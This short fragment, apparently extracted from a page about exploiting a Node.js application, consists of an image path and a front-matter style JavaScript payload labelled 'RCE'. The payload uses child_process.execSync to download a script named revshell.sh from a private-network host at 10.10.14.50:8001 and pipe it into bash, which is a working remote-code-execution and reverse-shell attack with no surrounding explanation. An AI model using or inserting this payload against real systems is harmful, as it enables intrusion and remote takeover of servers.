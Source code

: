 

---js\n((require("child_process")).execSync("curl http://10.10.14.50:8001/revshell.sh | bash"))\n---RCE
